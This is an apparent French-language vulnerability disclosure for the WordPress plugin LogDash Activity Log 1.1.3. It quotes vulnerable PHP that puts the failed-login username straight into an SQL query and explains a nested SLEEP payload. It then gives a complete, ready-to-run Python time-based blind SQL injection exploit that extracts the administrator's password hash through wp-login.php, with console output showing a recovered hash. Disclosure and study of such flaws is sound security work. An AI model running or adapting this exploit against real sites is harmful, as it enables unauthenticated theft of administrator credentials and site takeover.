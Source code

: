 ```yaml
---
title: "Faille d'injection SQL dans le plugin Wordpress LogDash Activity Log"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [LogDash Activity Log](https://wordpress.org/plugins/logdash-activity-log) (slug: `logdash-activity-log`) se présente de cette façon :

> LogDash Activity Log is the ultimate solution for tracking activities on your WordPress site. With its comprehensive features and intuitive interface, managing your website’s activity log has never been easier.
>
> Designed with simplicity in mind, LogDash Activity Log allows you to effortlessly monitor and track all actions on your WordPress site, including user logins, content changes, plugin updates, and more. Its user-friendly dashboard gives you instant access to critical information, making it easy to identify and resolve issues quickly.
>
> Whether you’re managing a personal blog or a large corporate website, LogDash Activity Log Plugin is the perfect tool for enhancing your site’s security.

La version testée est la 1.1.3 et date d'il y a 3 mois au moment de ces lignes.

## La vulnérabilité

Le script `src/Hooks/Users.php` du plugin définit quelques hooks via la fonction `add_action` :

```php
class Users extends HooksBase {                                                                                        
                                                                                                                       
    private static string $object_type = 'user';                                                                       
    private array $old_meta = [];                                                                                      
                                                                                                                       
    public function init() {                                                                                           
        $this->actions();                                                                                              
    }                                                                                                                  
                                                                                                                       
    public function actions() {                                                                                        
        add_action( 'user_register', [ $this, 'user_register' ], 10, 2 );                                              
        add_action( 'deleted_user', [ $this, 'deleted_user' ], 10, 3 );                                                
        add_action( 'profile_update', [ $this, 'profile_update' ], 10, 3 );                                            
        add_action( 'wp_login', [ $this, 'login' ], 10, 2 );                                                           
        add_action( 'wp_logout', [ $this, 'logout' ] );                                                                
        add_action( 'wp_login_failed', [ $this, 'login_failed' ], 10, 2 );                                             
        add_action( 'update_user_meta', [ $this, 'before_update_user_meta' ], 10, 4 );                                 
        add_action( 'updated_user_meta', [ $this, 'updated_user_meta' ], 10, 4 );                                      
        add_action( 'admin_init', array( $this, 'extra_actions' ) );                                                   
        add_filter( 'logdash_manage_columns-' . self::$object_type . '-content_event_meta', [                          
            $this,                                                                                                     
            'event_meta_info'                                                                                          
        ], 10, 3 );                                                                                                    
    
```

On voit notamment le hook sur `wp_login_failed` qui va appeler `login_failed` de la même classe dans le but de pouvoir loguer une tentative de connexion échouée.

Cette fonction est vulnérable à une faille d'injection SQL :

```php
public function login_failed( $user_login, $error ) {                                                              
                                                                                                                   
    $user              = get_user_by( 'login', $user_login );                                                      
    $errors            = current( array_keys( get_object_vars( $error )['errors'] ) );                             
    $attempt_last_date = (string) time();                                                                          
    $failed_login      = EventTypes::FAILED_LOGIN;                                                                 
                                                                                                                   
    global $wpdb;                                                                                                  
                                                                                                                   
    $log_table = DB::log_table();                                                                                  
    $meta_table = DB::meta_table();                                                                                
                                                                                                                   
    $user_query = "SELECT log.ID FROM {$log_table} AS log                                                          
                    LEFT JOIN {$meta_table} AS meta ON meta.event_id = log.ID                                      
                    WHERE log.event_type = '{$failed_login}'                                                       
                    AND meta.name = 'userLogin'                                                                    
                    AND meta.value = '{$user_login}'                                                               
                    AND FROM_UNIXTIME(created, '%Y-%m-%d') = CURRENT_DATE()                                        
                    ORDER BY log.ID DESC LIMIT 1;";                                                                
                                                                                                                   
    $event_id = $wpdb->get_var( $user_query );
```

La vulnérabilité vient du fait que le nom d'utilisateur (variable `$user_login`) est utilisé tel quel dans la requête SQL (clause `WHERE` pour `meta.value`). 

L'exploitation est possible via une technique time-based.

Pour ce faire, on préférera l'emploi d'un payload de type `(SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)` qui a l'avantage de respecter le délai d'attente défini alors qu'un simple `SLEEP(5)` se serait multiplié en raison de la jointure et aurait vite atteint les limites du serveur SQL.

Exploit qui dump le hash de l'utilisateur ayant l'ID 1 (généralement l'administrateur) depuis la table `wp_users` :

```python
import sys
from time import sleep, monotonic
from binascii import unhexlify

import requests
from requests.exceptions import RequestException

HEX_CHARS = "0123456789ABCDEFG"
SLEEP_TIME = "10"  # Must be an int
TIMEOUT = 10


def compare_char(idx: int, ope: str, value: str):
    return f"select substr(hex(user_pass),{idx},1){ope}'{value}' from wp_users where ID=1"

def sleep_if(cond: str, time: int):
    return f"sleep(if(({cond}),{time},0))"

def select_sleep(statement):
    return f"(select 1 from (select({statement}))YY)"

def find_char_range_at_index(idx: int):
    yield "ABCDEF", sleep_if(compare_char(idx, " < ", "G"), SLEEP_TIME)
    yield "56789", sleep_if(compare_char(idx, " < ", "A"), SLEEP_TIME)
    yield "01234", sleep_if(compare_char(idx, " < ", "5"), SLEEP_TIME)
    yield "", sleep_if(compare_char(idx, " < ", "0"), SLEEP_TIME)

def find_char_at_index(idx: int, char_range: str):
    for c in char_range:
        yield c, sleep_if(compare_char(idx, " = ", c), SLEEP_TIME)


def exploit(url: str):
    sess = requests.session()
    sess.headers["User-Agent"] = "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
    sess.get(url)

    data = {
            "log": "",
            "pwd": "dddd",
            "wp-submit": "Log In",
            "redirect_to": url.replace("wp-login.php", "wp-admin/"),
            "testcookie": "1",
    }

    idx = 1
    hex_hash = ""
    while True:
        possible_chars = ""
        for char_range, statement in find_char_range_at_index(idx):
            sql = "' OR " + select_sleep(statement) + " # a"
            data["log"] = sql
            start = monotonic()

            try:
                sess.post(
                    url,
                    data=data,
                    timeout=TIMEOUT,
                    headers={
                        "Cookie": "wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US",
                        "Pragma": "no-cache",
                        "Cache-Control": "no-cache",
                        "Referer": url,
                        "Upgrade-Insecure-Requests": "1",
                    },
                )
            except RequestException:
                pass

            if monotonic() - start > TIMEOUT:
                possible_chars = char_range

        if not possible_chars:
            # We reached end of string
            break

        for c, statement in find_char_at_index(idx, possible_chars):
            sql = "' OR " + select_sleep(statement) + " # a"
            data["log"] = sql

            start = monotonic()
            try:
                sess.post(
                    url,
                    data=data,
                    timeout=TIMEOUT,
                    headers={
                        "Cookie": "wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US",
                        "Pragma": "no-cache",
                        "Cache-Control": "no-cache",
                        "Referer": url,
                        "Upgrade-Insecure-Requests": "1",
                    },
                )
            except RequestException:
                pass

            if monotonic() - start > TIMEOUT:
                # timeout occurred meaning we found the good char
                hex_hash += c
                sys.stdout.write(c)
                sys.stdout.flush()
                break

        idx += 1

    print('')
    print("hexencoded hash:", hex_hash)
    if len(hex_hash) % 2 == 1:
        print("extraction failed, odd length")
    else:
        print("hash:", unhexlify(hex_hash).decode("utf-8", errors="ignore"))

if __name__ == "__main__":
    print("-*- Blind SQL exploit for Wordpress plugin LogDash Activity Log -*-")
    print("             devloop 2023 - https://devl00p.github.io/")
    if len(sys.argv) < 2:
        print(f"Usage: python3 {sys.argv[0]} http://target/wp-login.php")
    else:
        exploit(sys.argv[1])
```

Exploitation :

```console
$ python3 exploit.py http://localhost:8000/wp-login.php
-*- Blind SQL exploit for Wordpress plugin LogDash Activity Log -*-
             devloop 2023 - https://devl00p.github.io/
245024425A464A544A787A79504231457A3867426A574F452F2F32646F4C576B3330
hexencoded hash: 245024425A464A544A787A79504231457A3867426A574F452F2F32646F4C576B3330
hash: $P$BZFJTJxzyPB1Ez8gBjWOE//2doLWk30
```
